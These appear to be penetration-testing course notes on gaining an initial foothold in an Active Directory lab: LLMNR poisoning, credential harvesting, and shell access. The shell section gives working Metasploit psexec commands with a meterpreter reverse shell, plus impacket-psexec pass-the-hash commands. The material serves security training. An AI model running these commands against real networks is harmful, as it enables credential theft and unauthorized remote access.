 # Initial Attack Vectors

## Starting Position and Goals

The starting position for this step is typically an attacker on the internal network either physically connected or via VPN with no valid credentials. At this point, the attacker can observe network traffic, scan for hosts and services, and attempt to exploit weak protocols, misconfigurations, or default credentials. Essentially, they are outside the trust boundary of critical systems but inside the network perimeter.

The goal of this step is to gain an initial foothold: obtain valid credentials (passwords or NTLM hashes) and access at least one machine. This foothold allows the attacker to interact with the network, establish persistence, and set up the conditions for lateral movement and privilege escalation toward higher-value targets, such as domain controllers or sensitive servers.

## Methodology

- Start with LLMNR/NBT-NS poisoning: Run Responder or MIMT6 to capture broadcast authentication requests.

- Generate network traffic: Conduct internal scans (e.g., Nessus) to provoke devices into authenticating.

- Perform web reconnaissance: Identify internal websites and services, check server types, versions, and exposed endpoints.

- Check for default or weak credentials: Test printers, Jenkins, or other internal management interfaces.

- Harvest credentials: Collect NTLM hashes or cleartext passwords captured via poisoning or web logins.

- Think creatively: Look for overlooked services, legacy protocols, or unconventional access points.

- Document and escalate: Keep track of captured credentials, systems accessed, and potential paths for privilege escalation.

Common intial attack vectors in Active Directory environments:

```{toctree}
:maxdepth: 1

llmnr-poisoning
smb-relay
ipv6-attacks
passback-attacks
```

## Gaining Shell Access

Once an attacker has captured or cracked hashes, they can leverage them to gain shell access on remote machines, either with the cleartext password or directly using the NTLM hash. Tools like Metasploit and Impacket facilitate this process, often using SMB-based execution techniques.

With Metasploit, the psexec module allows an attacker to authenticate to a remote Windows host using a username/password pair or a captured LM:NT hash. The workflow involves setting the target host (rhosts), domain (smbdomain), user (smbuser), and either the password (smbpass) or hash (smbpass LM:NT hash). Once the module runs, it can spawn a Meterpreter session, giving interactive shell access. Using hashes enables “pass-the-hash” attacks, bypassing the need to crack the password.

```
msfconsole

> search psexec

> use exploit/windows/smb/psexec

> set payload windows/x64/meterpreter/reverse_tcp

> set rhosts 10.0.2.16
> set smbdomain MARVEL.local
> set smbuser fcastle
> set smbpass Password1!

> run
```

Using Impacket, similar functionality is available with scripts like psexec.py, wmiexec.py, or smbexec.py. These tools allow authentication with a password or LM:NT hash to remotely execute commands or spawn a shell.

```
impacket-psexec MARVEL/fcastle:'Password1!'@10.0.2.16
```

```
impacket-psexec administrator@<target-ip> -hashes <LM:NT>
```
